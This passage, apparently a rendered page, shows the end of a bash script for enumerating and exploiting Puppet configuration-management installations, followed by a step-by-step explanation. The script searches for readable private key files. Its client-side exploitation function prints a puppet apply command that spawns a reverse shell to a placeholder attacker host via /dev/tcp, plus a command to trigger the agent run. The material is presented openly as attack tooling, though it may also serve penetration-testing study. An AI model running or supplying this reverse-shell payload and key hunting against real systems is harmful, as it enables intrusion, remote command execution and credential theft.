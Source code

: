 ```bash
            echo "Key file is readable: $keyfile"
        fi
    done
}

# Function for client-side exploitation
client_side_exploitation() {
    echo "Possible client-side exploits if running Puppet agent..."

    # Check if puppet agent is running
    if pgrep puppet > /dev/null; then
        echo "Puppet agent is running."

        # Commands to exploit Puppet agent from client-side
        echo "To exploit the agent and execute commands remotely:"
        echo "puppet apply -e 'exec { \"exploit\": command => \"/bin/bash -c \\\"bash -i >& /dev/tcp/attacker_ip/attacker_port 0>&1\\\"\", }'"
        echo "puppet agent -t # Trigger a Puppet run"
    else
        echo "Puppet agent is not running."
    fi
}

# Start the enumeration
check_puppet_installed
identify_puppet_files
check_exploit_paths
client_side_exploitation

echo "Puppet enumeration completed."
```

### **Explanation of the Script**

1. **Puppet Installation Check:**
   - The script checks if Puppet is installed on the system using the `command -v puppet` command. If Puppet is not found, the script exits.

2. **Identify Puppet Installation Paths and Files:**
   - The script searches for common Puppet directories such as `/etc/puppet`, `/var/lib/puppet`, `/opt/puppetlabs`, and `/etc/puppetlabs`.
   - It lists files within these directories, which may include manifests, modules, and configuration files.

3. **Check for Exploit Paths:**
   - The script searches for Puppet manifest (`*.pp`), Ruby (`*.rb`), and ERB (`*.erb`) files and looks for potentially exploitable commands (e.g., `exec`, `system`, `file`, `package`).
   - It also checks for readable key files (`*.pem`, `*.key`), which could be leveraged in an attack.

4. **Client-Side Exploitation:**
   - If the Puppet agent is running, the script provides an example command to exploit the agent and execute arbitrary commands on the server.

